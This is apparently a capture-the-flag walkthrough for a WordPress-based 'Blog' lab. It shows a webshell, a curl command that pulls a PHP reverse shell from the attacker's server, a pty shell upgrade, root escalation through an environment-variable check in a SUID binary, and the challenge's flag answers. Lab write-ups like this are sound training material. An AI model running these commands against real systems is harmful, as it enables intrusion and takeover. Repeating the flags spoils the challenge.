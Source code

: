 We now have a webshell

```
http://blog.thm/rse.php?0=whoami
www-data
```
running from `/var/www/wordpress`

Get a PHP reverse shell code (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), modify the IP and port
`python3 -m http.server 81` where the shell.php is.
In the webshell `/rse.php?0=curl%20http%3A%2F%2F10.4.18.254%3A81%2Fshell.php%20--output%20shell.php`.
Setup a listener and run the php `/shell.php`

We now have a remote shell

make a better shell - `python -c 'import pty;pty.spawn("/bin/bash")'`

Found a `user.txt` in /home/bjoel but this isn't the right one
```
$ cat user.txt
You won't find what you're looking for here.

TRY HARDER
```

There is also his termination letter from Rubber Ducky Inc in that directory.
Reading the termination letter he was fired for removable media violations amongst other things.  There is a `usb` folder in `media` but we don't have access to that.

Checking files with SUID bit set we find `/usr/sbin/checker`
Running it reports we are not an Admin -- which is correct.  Copy the file locally, and examine it
Strings wasn't useful;
Open the file in Ghidra and we can we that it is getting an environment variable called admin, and if it exists, it runs a shell.

![[Blog01.png]]

We can then do `export admin="yep"`
run checker and it spawns a shell as root.

### Where was user.txt found?
Answer: `/media/usb`

### user.txt

Answer: `c8421899aae571f7af486492b71a8ab7`

### root.txt

Answer: `9a0b2b618bef9bfa7ac28c1353d9f318`